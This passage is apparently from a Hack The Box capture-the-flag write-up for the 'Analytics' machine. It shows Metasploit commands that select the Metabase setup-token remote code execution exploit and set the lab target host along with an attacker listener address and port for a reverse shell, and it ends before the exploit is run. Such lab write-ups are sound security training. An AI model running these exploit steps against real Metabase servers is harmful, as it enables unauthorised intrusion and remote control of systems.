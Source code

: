     ```python
    ┌──(root㉿kali)-[~/htb/machines/analytics]
    └─# msfconsole 
    ```       

    ```python
    msf6 > search metabase
    ```

    ![Alt text](.screenshots/Metabase-exploit.jpg)


- **Before we jump in and run the exploit, We prepare the exploit by viewing and providing the required  arguments in order for us to run the exploit like shown below**

    ```python
    msf6 > use exploit/linux/http/metabase_setup_token_rce
    ```

    ```python
    msf6 exploit(linux/http/metabase_setup_token_rce) > show options
    ```

    ```python
    msf6 exploit(linux/http/metabase_setup_token_rce) > set RHOST data.analytical.htb
    RHOST => data.analytical.htb
    msf6 exploit(linux/http/metabase_setup_token_rce) > set RPORT 80
    RPORT => 80
    msf6 exploit(linux/http/metabase_setup_token_rce) > set LHOST 10.10.16.55
    LHOST => 10.10.16.55
    msf6 exploit(linux/http/metabase_setup_token_rce) > set LPORT 4444
    ```


